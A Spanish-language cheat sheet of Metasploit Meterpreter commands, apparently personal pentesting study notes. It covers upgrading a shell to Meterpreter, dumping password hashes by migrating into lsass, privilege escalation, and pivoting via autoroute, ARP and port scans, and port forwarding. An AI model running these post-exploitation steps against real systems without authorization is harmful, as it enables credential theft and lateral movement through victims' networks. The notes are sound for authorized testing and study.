 # Meterpreter

Tags: #Comandos #Meterpreter #Pivoting 

## Meterpreter 

Es un multi-funcional payload que es ejecutado en memoria en un sistema victima haciéndolo difícil de detectar. El se comunica a través de un socket stager y provee a un atacante un interpretado de comandos interactivo de un sistema victima que facilite la ejecución de comandos del sistema, navegación del sistema de archivos,  keylogging y mucho mas. 

## Convertir una Shell a Meterpreter

```bash 
# Debes de tener una sesion activa y en background en Metasploit 

❯ use post/multi/manage/shell_to_meterpreter
	❯ set session <ID>
	❯ run 

❯ sessions -l                # Miramos las sesiones activas, l (ele) = Listar 
❯ sessions -i <ID>           # Usar la sesion con Meterpreter
```

## Comandos con Meterpreter

```bash 
# Migrar a un proceso con mayores privilegios para tener un 'Meterpreter x64/Windows'

❯ hashdump                   # Te muestra todos los hashes de los usuarios, en dado caso que te salga este error 'Operation_failed: The parameter is incorrect', debemos de migrar a otro proceso.
	❯ pgrep lsass              # Mirar el numero del proceso 'lsass'  
	❯ migrate <ID>             # Nos migramos al proceso y asi poder mejorar la consola de Meterpreter, por lo que ahora podremos hacer el dumpeo de Hashes.  
```

```bash 
# Cuando tienes la sesion con Meterpreter 

❯ ctrl + z                   # Colocas la sesion en 'Background'
❯ background                 # Ponemos la sesion en segundo plano
❯ sessions                   # Miramos las sesiones activas 
❯ sessions -u <ID>           # Regresamos a la sesion 


❯ sysinfo                    # Muestra informacion del Windows 
❯ getuid                     # Miramos el nombre del usuario 
❯ getprivs                   # Miramos los  procesos con privilegios 
❯ getsystem                  # Miras los procesos privilegiados 
❯ pgrep explorer             # Mirar el numero del proceso y asi poder escalar privilegios 
❯ search -f *.doc            # Buscar un archivo 

❯ shell                      # Nos carga una shell
	❯ /bin/bash -i          # Si no nos crea la Shell con el comando anterior, lo hacemos con este 
	❯ exit                  # Para salir de la sesion de 'Shell' y regresar a la sesion de 'Meterpreter'
❯ pwd                        # Nos muestra la ruta del dir actual 
❯ cd /                       # Nos dirigimos a la raiz 'C:\'
❯ cat file.txt               # Miramos el contenido de un archivo 
```

## Para hacer Pivoting con Metasploit

```bash 
❯ run arp_scanner -r IP.0/24              # Barrido ARP en la direccion IP 

1. Agregar la IP a la tabla de ruteo en Meterpreter y la conectividad es dentro de Metasploit
❯ run autoroute -s IP.0/24                # Agregas la IP a la tabla de ruteo para alcanzar la nueva red

2. Te sales de la sesion y puedes ver la tabla de ruteo
❯ Ctrl + z                                # Poner en background la sesion
❯ route print                             # Mirar la tabla de ruteo 

3. Fuera de la sesion usas el scanner para ver los puertos de la maquina agregada
❯ use auxiliary/scanner/portscan/tcp      # Hacer escaneo con Nmap
	❯ options 
	❯ set ports 1-1000                # Escanearemos los primero 1000 puertos 
	❯ set rhosts <IP>                 # Colocamos la IP de la maquina a la que no llegabamos porque estaba en otra red
	❯ run 

4. Haremos PortForwarding para tener conectividad fuera del Metasploit, los siguientes comandos los debemos de hacer dentro de la sesion de Meterpreter
❯ sessions ID                          # Usas la sesion con Meterpreter 
❯ portfwd add -l 2233 -p 445 -r IP     # IP es del nuevo hosts el cual no podiamos alcanzar, l = El puerto a abrir en nuestra maquina de atacante, p = Puerto de la maquina victima a traer
	❯ nmap -p2233 localhost           # Ahora podemos hacer Nmap desde nuestra consola 
```